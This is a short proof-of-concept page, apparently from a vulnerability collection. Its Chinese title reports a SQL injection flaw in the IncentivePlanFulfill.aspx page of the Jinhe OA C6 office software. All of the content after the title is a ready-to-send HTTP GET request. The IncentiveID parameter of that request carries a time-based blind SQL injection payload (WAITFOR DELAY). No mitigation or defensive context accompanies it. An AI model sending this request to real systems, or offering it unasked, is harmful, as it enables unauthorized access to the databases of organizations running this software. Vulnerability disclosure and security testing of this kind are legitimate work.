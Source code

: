 ## 金和OA-C6-IncentivePlanFulfill.aspx存在SQL注入漏洞


## poc
```
GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfill.aspx/?IncentiveID=1WAITFOR+DELAY+%270:0:6%27--&TVersion=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
Cookie: ASP.NET_SessionId=0uha1u0nhrn4meghddjiwu0y
Accept-Encoding: gzip
```
